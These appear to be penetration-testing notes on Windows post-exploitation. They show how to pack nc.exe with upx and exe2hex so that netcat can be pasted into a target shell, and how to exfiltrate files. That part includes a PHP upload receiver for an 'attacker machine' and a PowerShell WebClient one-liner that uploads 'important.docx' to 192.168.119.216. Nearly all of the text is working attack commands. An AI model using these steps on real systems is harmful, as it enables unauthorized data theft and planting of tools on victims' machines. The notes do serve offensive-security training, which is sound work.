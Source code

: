 #### exe2hex and Powershell

Not sure why we are doing this yet

First, optimize the size of the binary using upx:

```bash
upx -9 nc.exe
```

Next, convert the file to a Windows Script CMD format, which converts it to hex and tells Powershell to assemble it back into binary:

```bash
exe2hex -x nc.exe -p nc.cmd
```

Now copy the hex contents of the CMD file to the clipboard and paste it into the shell:

```bash
cat nc.cmd | xclip -selection clipboard

# Note, if using 'clipboard' won't paste, try 'primary' instead.
```

### Exfiltrating Data from Windows

#### Using Powershell

If you are using a Windows machine that is Win7/Win2008R2 and above inside your target organization and need to get data out, you can send it to the attacker machine via an HTTP post request.

Create this file on the attacker machine and host it on your webserver.

```php+HTML
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

You must also create the receiving folder and set permissions on it:

```bash
# Make folder
sudo mkdir /var/www/uploads
# Identify the Apache process user
ps -ef | grep apache
# Give apache's user ownership of the folder (ex: www-data)
sudo chown www-data: /var/www/uploads
```

WARNING:  Remember that anyone who interacts with this page can upload to your attacker machine while it is available.

Finally, run this command on Windows to send the files to your webserver:

```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.216/upload.php', 'important.docx')
```
